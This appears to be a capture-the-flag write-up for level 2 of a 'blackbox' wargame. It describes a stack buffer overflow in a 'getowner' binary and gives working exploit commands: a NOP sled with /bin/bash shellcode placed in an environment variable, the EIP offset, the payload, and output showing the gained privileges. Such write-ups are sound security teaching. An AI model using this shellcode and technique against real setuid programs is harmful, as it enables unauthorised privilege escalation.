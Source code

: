 # Level 2

## Details
*Vulnerability:* Buffer overflow

*Memory Security:* None

*Description*
This challenge was a basic buffer overflow. The attack vector for this challenge, is through an environment variable called "filename". The getowner binary reads this information and performs a strcpy, allowing me to smash the stack and gain control of EIP. The payload, which includes a nopsled and shellcode, was stored in an additional environment variable and the address of this environment variables was discovered using the getenvaddr tool.


The first thing I did was smash the stack and enumerate how many bytes it took to overwrite EIP. I used peda's pattern and pattern_search tools in GDB to do this. However, I could have easily done it with Metasploit's pattern_create.rb or similar methods.

Bytes to overwrite EIP: 151(buffer) + 4(ret) = 155

At this point, I created a payload, which consists of a nopsled and my shellcode, and put it in an environment variable called SHELL. I use the getenvaddr tool to find out the memory address, which points to the beginning of my payload.

I then use this address when overriting EIP to execute my shellcode.

## Exploit
Setting up the payload:
```bash
level2@blackbox:~$ export SHELL=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

Getting the SHELL environment variable location:
```bash
level2@blackbox:/tmp/hpl2$ ./getenvaddr SHELL ~/getowner
SHELL will be at 0xbfffdb0c
```

Setting up the buffer overflow and exploitation: 
```bash
level2@blackbox:/tmp/hpl2$ export filename=`python -c 'import struct; print "A" * 151 + struct.pack("<L", 0xbfffdb0c)'`

level2@blackbox:/tmp/hpl2$ ~/getowner 
The owner of this file is: 0
bash-3.1$ id
uid=1003(level2) gid=1005(gamers) euid=1004(level3) groups=1003(level2),1005(gamers)
```


